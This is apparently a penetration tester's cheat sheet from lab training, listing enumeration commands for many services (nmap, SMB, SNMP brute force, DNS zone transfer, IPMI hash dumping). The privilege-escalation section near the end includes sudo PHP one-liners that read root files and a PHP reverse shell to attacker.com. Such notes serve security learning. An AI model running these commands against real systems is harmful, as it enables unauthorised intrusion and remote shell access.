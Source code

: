 # Enumeration 
## Scanning

### All
	nmap -sV <IP>
	All Ports - nmap -sV -sC -p- 10.129.42.253
	Banner Grab - nc -vv -n -w1 <IP> 31337
	Vuln script - sudo nmap <IP> -p <PORT> -sV --script vuln 
	SPORT Masq - sudo nmap <IP> -source-port 53
	
### Web
	nmap -sV --script=http-enum -oA <IP_HTTPENUM> <IP>
	nikto -host http://<IP>
	gobuster dir -u http://<IP> --wordlist /usr/share/dirb/wordlists/common.txt
	Banner Grab - curl -IL https://www.inlanefreight.com
	Webserver version/framework/application - whatweb 10.10.10.121
	^^ but network - whatweb --no-errors 10.10.10.0/24
	
### FTP
	all files - wget -m --no-passive ftp://anonymous:anonymous@10.129.14.136
	nc -nv 10.129.14.136 21
	telnet 10.129.14.136 21
	ftp 10.129.14.136
	sudo nmap -sV -p21 -sC -A 10.129.14.136
	encrytped connection - openssl s_client -connect <FQDN/IP>:21 -starttls ftp	
	
### SMB
	Connect to SMB Share - smbclient \\\\10.129.42.253\\users
	Connect to SMB with user - smbclient -U bob \\\\10.129.42.253\\users
	enum4linux-ng.py <FQDN/IP> -A
	SMB Shares 
		crackmapexec smb <FQDN/IP> --shares -u '' -p ''	
		smbmap -H <FQDN/IP>	
		smbclient -N -L \\\\10.129.42.253
		user enum - impacket-samrdump.py <FQDN/IP>
		rpc connect - rpcclient -U "" <FQDN/IP>
			querydominfo
			srvinfo
			netsharegetinfo sambashare
		
### NFS
	showmount -e <FQDN/IP>
	mount -t nfs <FQDN/IP>:/<share> ./target-NFS/ -o nolock
	umount ./target-NFS
	
### DNS
	Get Seclists - git clone https://github.com/danielmiessler/SecLists
	add dns server such as 1.1.1.1 to /etc/resolv.conf
	gobuster dns - gobuster dns -d inlanefreight.com -w 
	dig ns <domain.tld> @<nameserver>	NS request to the specific nameserver.
	dig any <domain.tld> @<nameserver>	
	dig axfr <domain.tld> @<nameserver
	dnsenum --dnsserver <nameserver> --enum -p 0 -s 0 -o found_subdomains.txt -f ~/subdomains.list <domain.tld>
	
### SMTP
	telnet <FQDN/IP> 25	
	
### IMAP/POP3
	curl -k 'imaps://<FQDN/IP>' --user <user>:<password>
	openssl s_client -connect <FQDN/IP>:imaps
	openssl s_client -connect <FQDN/IP>:pop3s	
	
### SNMP
	SNMP Public - snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0
	SNMP Private - snmpwalk -v 2c -c private  10.129.42.253 
	SNMP Bruteforce - onesixtyone -c dict.txt 10.129.42.254
	snmpwalk -v2c -c <community string> <FQDN/IP>
	onesixtyone -c community-strings.list <FQDN/IP>
	braa <community string>@<FQDN/IP>:.1.*
	
### MySQL
	mysql -u <user> -p<password> -h <FQDN/IP>
	
### MSSQL
	mssqlclient.py <user>@<FQDN/IP> -windows-auth
	
### IPMI
	msf6 auxiliary(scanner/ipmi/ipmi_version)	
	msf6 auxiliary(scanner/ipmi/ipmi_dumphashes)	
	
### Windows
	nbtstat -A <IP>
	nbtscan <IP>
	Eternalblue - nmap --script smb-os-discovery.nse -p445 10.10.10.40
	rdp-sec-check.pl <FQDN/IP>	
	xfreerdp /u:<user> /p:"<password>" /v:<FQDN/IP>	
	evil-winrm -i <FQDN/IP> -u <user> -p <password>	
	wmiexec.py <user>:"<password>"@<FQDN/IP> "<system command>"	
	
### Linux
	enum4linux
	ssh-audit.py <FQDN/IP>	
	
# Exploitation
## Web
	Upload Locations
		Apache
		/var/www/html/
		Nginx
		/usr/local/nginx/html/
		IIS
		c:\inetpub\wwwroot\
		XAMPP
		C:\xampp\htdocs\

# Priv Esc
### PHP
	sudo php -r 'echo exec("id");'
	sudo php -r 'echo exec("find /root/*.txt");'
	sudo php -r 'echo exec("cat /root/root.txt");'

	export RHOST=attacker.com
	export RPORT=12345
	sudo php -r '$sock=fsockopen(getenv("RHOST"),getenv("RPORT"));exec("/bin/sh -i <&3 >&3 2>&3");'

	export CMD="/bin/sh"
	php -r 'system(getenv("CMD"));'

# Post-Exploit 
